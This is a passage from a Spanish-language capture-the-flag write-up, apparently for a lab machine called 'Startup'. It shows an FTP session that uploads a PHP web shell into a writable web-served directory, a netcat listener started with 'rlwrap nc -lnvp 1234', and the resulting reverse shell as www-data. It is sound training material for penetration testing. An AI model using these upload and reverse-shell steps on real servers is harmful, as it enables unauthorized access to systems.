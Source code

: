 ```


Ahora lo subimos

ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||47874|)
553 Could not create file.
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||6324|)
553 Could not create file.
ftp> mkdir test
550 Create directory operation failed.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||9042|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> mkdir test
257 "/ftp/test" created
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||53518|)
150 Ok to send data.
100% |**************************************|  5491       26.31 MiB/s    00:00 ETA
226 Transfer complete.
5491 bytes sent in 00:00 (13.20 KiB/s)
ftp> 

```

Ahora necesitamos algo que detecte el shell cuando lo ejecutamos. Iniciaremos un receptor netcat con el siguiente comando:

```
─(kali㉿kali)-[~/Documents/Seguridad de redes/Startup]
└─$ rlwrap nc -lnvp 1234           
listening on [any] 1234 ...

Ahora hacemos click enn el shell en el la pagina web


Ahora buscamos

$ whoami
www-data
$ ls
bin
boot
dev
etc
home
incidents
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
```
